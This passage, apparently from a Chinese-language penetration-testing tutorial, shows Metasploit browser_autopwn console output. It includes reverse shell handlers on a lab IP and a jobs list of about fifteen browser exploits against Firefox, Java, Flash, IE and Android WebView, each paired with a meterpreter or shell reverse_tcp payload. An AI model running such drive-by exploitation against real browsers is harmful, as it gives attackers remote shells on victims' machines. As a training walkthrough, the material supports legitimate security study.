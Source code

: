 ```bash
[*] Using URL: http://0.0.0.0:8080/HorQWCGJmHlI
[*] Local IP: http://192.168.1.101:8080/HorQWCGJmHlI
[*] Server started.
# ... 省去了很多内容，后面会用jobs以列表展示

# 开启监听反向shell
[*] Starting handler for windows/meterpreter/reverse_tcp on port 3333
[*] Starting handler for generic/shell_reverse_tcp on port 6666
[*] Started reverse TCP handler on 172.16.56.1:3333
[*] Starting handler for java/meterpreter/reverse_tcp on port 7777
[*] Started reverse TCP handler on 172.16.56.1:6666
[*] Started reverse TCP handler on 172.16.56.1:7777

[*] --- Done, found 20 exploit modules

[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.1.101:8080/
[*] Server started.
```

至此，`browser_autopwn`启动完毕。我们可以用jobs看一下后台任务：

```
msf auxiliary(server/browser_autopwn) > jobs

Jobs
====

  Id  Name                                                       Payload                          Payload opts
  --  ----                                                       -------                          ------------
  0   Auxiliary: server/browser_autopwn
  1   Exploit: android/browser/webview_addjavascriptinterface    android/meterpreter/reverse_tcp  tcp://172.16.56.1:8888
  2   Exploit: multi/browser/firefox_proto_crmfrequest           generic/shell_reverse_tcp        tcp://172.16.56.1:6666
  3   Exploit: multi/browser/firefox_tostring_console_injection  generic/shell_reverse_tcp        tcp://172.16.56.1:6666
  4   Exploit: multi/browser/firefox_webidl_injection            generic/shell_reverse_tcp        tcp://172.16.56.1:6666
  5   Exploit: multi/browser/java_atomicreferencearray           java/meterpreter/reverse_tcp     tcp://172.16.56.1:7777
  6   Exploit: multi/browser/java_jre17_jmxbean                  java/meterpreter/reverse_tcp     tcp://172.16.56.1:7777
  7   Exploit: multi/browser/java_jre17_provider_skeleton        java/meterpreter/reverse_tcp     tcp://172.16.56.1:7777
  8   Exploit: multi/browser/java_jre17_reflection_types         java/meterpreter/reverse_tcp     tcp://172.16.56.1:7777
  9   Exploit: multi/browser/java_rhino                          java/meterpreter/reverse_tcp     tcp://172.16.56.1:7777
  10  Exploit: multi/browser/java_verifier_field_access          java/meterpreter/reverse_tcp     tcp://172.16.56.1:7777
  11  Exploit: multi/browser/opera_configoverwrite               generic/shell_reverse_tcp        tcp://172.16.56.1:6666
  12  Exploit: windows/browser/adobe_flash_mp4_cprt              windows/meterpreter/reverse_tcp  tcp://172.16.56.1:3333
  13  Exploit: windows/browser/adobe_flash_rtmp                  windows/meterpreter/reverse_tcp  tcp://172.16.56.1:3333
  14  Exploit: windows/browser/ie_cgenericelement_uaf            windows/meterpreter/reverse_tcp  tcp://172.16.56.1:3333
  15  Exploit: windows/browser/ie_createobject                   windows/meterpreter/reverse_tcp  tcp://172.16.56.1:3333
```